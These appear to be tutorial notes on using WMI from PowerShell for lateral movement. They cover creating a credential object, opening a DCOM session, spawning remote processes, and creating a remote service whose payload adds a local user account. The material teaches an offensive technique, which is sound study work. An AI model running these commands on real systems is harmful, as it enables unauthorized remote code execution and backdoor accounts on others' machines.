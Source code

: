 WMI is Windows implementation of Web-Based Enterprise Management (WBEM), an enterprise standard for accessing management information across devices. 

In simpler terms, WMI allows administrators to perform standard management tasks that attackers can abuse to perform lateral movement in various ways.<br>

**Connecting to WMI From Powershell**<br>

Before being able to connect to WMI using Powershell commands, we need to create a PSCredential object with our user and password.
This object will be stored in the $credential variable and utilised throughout the techniques on this task:
```python
$username = 'Administrator';
$password = 'Mypass123';
$securePassword = ConvertTo-SecureString $password -AsPlainText -Force;
$credential = New-Object System.Management.Automation.PSCredential $username, $securePassword;
```
There are two protocols when establishing a WMI session **DCOM** and **Wsman**.<br>
To establish a WMI session from Powershell, we can use the following commands and store the session on the $Session variable, which we will use directry.<br>
```python
$Opt = New-CimSessionOption -Protocol DCOM
$Session = New-Cimsession -ComputerName TARGET -Credential $credential -SessionOption $Opt -ErrorAction Stop
```
**Remote Process Creation Using WMI**<br>
We can remotely spawn a process from Powershell by leveraging WMI, sending a WMI request to the Win32_Process class to spawn the process under the session we created before:
```python
$Command = "powershell.exe -Command Set-Content -Path C:\text.txt -Value lol";
Invoke-CimMethod -CimSession $Session -ClassName Win32_Process -MethodName Create -Arguments @{CommandLine = $Command}
```
**Creating Services Remotely with WMI**<br>
We can create services with WMI through Powershell. To create a service called LOLService, we can use the following command:
```python
Invoke-CimMethod -CimSession $Session -ClassName Win32_Service -MethodName Create -Arguments @{
Name = "LOLService";
DisplayName = "LOLService";
PathName = "net user lol Pass123 /add"; # Your payload
ServiceType = [byte]::Parse("16"); # Win32OwnProcess : Start service in a new process
StartMode = "Manual"
}
```
And then, we can get a handle on the service and start it with the following commands:

```python
$Service = Get-CimInstance -CimSession $Session -ClassName Win32_Service -filter "Name LIKE 'LOLservice'"
Invoke-CimMethod -InputObject $Service -MethodName StartService
```
Finally, we can stop and delete the service with the following commands:
```
Invoke-CimMethod -InputObject $Service -MethodName StopService
Invoke-CimMethod -InputObject $Service -MethodName Delete
```




















































